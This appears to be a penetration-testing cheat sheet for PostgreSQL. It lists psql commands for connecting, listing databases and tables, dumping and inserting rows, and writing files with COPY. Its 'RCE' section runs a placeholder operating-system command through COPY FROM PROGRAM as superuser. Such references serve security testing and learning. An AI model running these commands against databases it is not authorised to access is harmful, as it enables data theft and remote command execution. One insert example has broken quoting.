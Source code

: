 ```yaml
---
title: "Postgresql"
date: 2025-3-2
tags: ["Database Dumping", "Privilege Escalation In Databases", "Postgresql", "RCE", "Database"]
---
```


### Connect

```console
psql -h <TARGET> -U <USER>
```

```console
psql -h <TARGET> -U <USER> -p <PORT> -d <DB_NAME>
```

```console
psql 'postgresql://<USER>:<PASSWORD>@localhost:5432/<DB_NAME>'
```

### Basic

```console
# Show Databases
\list
```

```console
# Use Database
\connect <DB_NAME>
```

```console
# Show Tables
\dt
```

```console
# Dump from Table
select * from "<TABLE_NAME>";
```

```console
# Insert into Table
insert into "<TABLE_NAME>" (<COLUMN_1>, <COLUMN_2>) values ("<VALUE_1>', '<VALUE_2>');
```

```console
# Write Text
copy (select '<STRING>') to '<TARGET_PATH>';
```

```console
# List All User Accounts
\du+
```

```console
# Exit
\q
```

<br>

---

### RCE

```console
# Only for Superuser
CREATE TABLE IF NOT EXISTS exec(string text);
```

```console
# Code Execution
COPY exec FROM PROGRAM '<CMD>';
```

```console
# Check Ouput
SELECT * FROM exec;
```